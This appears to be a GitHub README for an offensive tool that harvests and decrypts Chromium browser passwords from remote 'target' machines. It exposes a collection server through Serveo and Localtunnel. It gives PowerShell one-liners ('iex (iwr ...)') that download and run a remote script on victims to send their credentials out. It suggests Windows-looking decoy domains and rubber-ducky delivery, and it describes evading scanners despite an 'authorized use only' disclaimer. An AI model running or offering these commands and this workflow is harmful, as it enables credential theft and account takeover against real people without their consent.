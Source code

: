 # Browser Credential Collector

A tool designed to securely collect and decrypt stored browser credentials from remote systems. This tool helps security professionals and system administrators assess password security and demonstrate how easily browser-stored credentials can be retrieved.

1. It connects to both Serveo and Localtunnel services, giving you two different public URLs to access your server from anywhere
2. Customizes a unique useragent per user request to ensure it isn't spammed
3. Decrypts the passwords locally
4. Every time you re-run the script it will get you new public URLs, but each one can be used many times until you stop the script from running.
   If you have a custom domain, consider something like WindowsSys.Tools - this way you can create a catch all subdomain and customize it per engagement.
```
iex (iwr WindowsSys.Tools)
iex (iwr System32.Windows.Sys.Tools)
```

<p align="center">
  <img src="https://github.com/pentestfunctions/chromium_passwords_local_collection/blob/main/images/sample.png">
</p>

## 🚨 Important Notice

This tool is intended for **AUTHORIZED USE ONLY**. Always obtain proper permissions before using on any system. Unauthorized use against systems you don't own or have explicit permission to test is illegal and unethical. Red team engagements and rubber duckies work awesome with this.

## 🔑 Features

- Securely collects stored browser credentials
- Automatically decrypts passwords using browser encryption keys
- Real-time monitoring dashboard
- Secure token-based authentication
- Protection against scanning and unauthorized access
- Dual public access via Serveo and Localtunnel (both optional)
- Custom subdomain support for Localtunnel
- Rate limiting to prevent abuse

## 📋 Requirements

- Python 3.6+
- OpenSSH client (for Serveo tunneling)
- Node.js and NPX (for Localtunnel functionality)
- PyCryptodome (optional, for better decryption support)

## 💻 Quick Start

1. **Clone the repository**
```bash
git clone https://github.com/pentestfunctions/chromium_passwords_local_collection.git
cd chromium_passwords_local_collection
```

2. **Install dependencies**
```bash
# For decryption support
pip install pycryptodome

# For Localtunnel support (if you don't already have Node.js)
# For Debian/Ubuntu:
curl -fsSL https://deb.nodesource.com/setup_lts.x | sudo -E bash -
sudo apt-get install -y nodejs

# For macOS:
brew install node

# For Windows:
# Download and install from https://nodejs.org/
```

3. **Run the server**
```bash
python3 credential_collector.py
```

4. **Run with custom options**
```bash
# Use a custom Localtunnel subdomain
python3 credential_collector.py --lt-subdomain your-subdomain-name

# Disable Serveo but keep Localtunnel
python3 credential_collector.py --no-serveo

# Disable Localtunnel but keep Serveo
python3 credential_collector.py --no-localtunnel

# Use a custom port
python3 credential_collector.py --port 8080
```

5. **Execute the PowerShell script on target system**
```powershell
# Using Serveo URL
iex (iwr https://your-serveo-url.serveo.net/script)

# Using Localtunnel URL
iex (iwr https://your-subdomain.loca.lt/script)
```

The available URLs will be displayed in the console dashboard when the server is running.

## 📚 How It Works

1. The server runs on your machine and sets up tunnels through Serveo and Localtunnel
2. When a target accesses the `/script` endpoint via either URL, they receive a customized PowerShell script with a unique token
3. The PowerShell script extracts stored browser credentials and securely sends them back to the server
4. The server decrypts and stores the credentials
5. All activity is monitored in real-time through the console dashboard

## 🔄 Tunneling Services

### Serveo
- No installation required (uses SSH)
- Provides a random subdomain at serveo.net
- More reliable for some environments

### Localtunnel
- Requires Node.js and NPX
- Supports custom subdomains (e.g., `--lt-subdomain your-name`)
- Sometimes offers better performance and connectivity options
- Uses loca.lt domain

## 🔒 Security Features

- One-time tokens for script authentication
- Rate limiting to prevent abuse
- Scanner detection to block common vulnerability scanners
- IP blocking for suspicious activity
- All credentials stored locally in JSON format

## 📊 Understanding the Dashboard

The dashboard shows:
- Server information (local, network, and public URLs for both tunneling services)
- Collection statistics (credentials collected, success rates)
- Recent events
- Tunnel status for both Serveo and Localtunnel
- Ready-to-use PowerShell commands for both tunnels
- List of collected credential files
- Blocked IPs

## ❓ Troubleshooting

**Error: "pycryptodome not found"**
- Install with: `pip install pycryptodome`

**Can't establish Serveo tunnel**
- Make sure SSH is installed and can connect to external services
- Try running with `--no-serveo` to use only Localtunnel

**Can't establish Localtunnel**
- Make sure Node.js and NPX are installed: `node --version` and `npx --version`
- Try running with `--no-localtunnel` to use only Serveo

**Custom subdomain not available**
- Localtunnel subdomains are on a first-come, first-served basis
- Try a different, more unique subdomain name

**No credentials collected**
- Verify the target system has Chrome/Chromium-based browsers installed
- Check that the PowerShell script is running with sufficient permissions
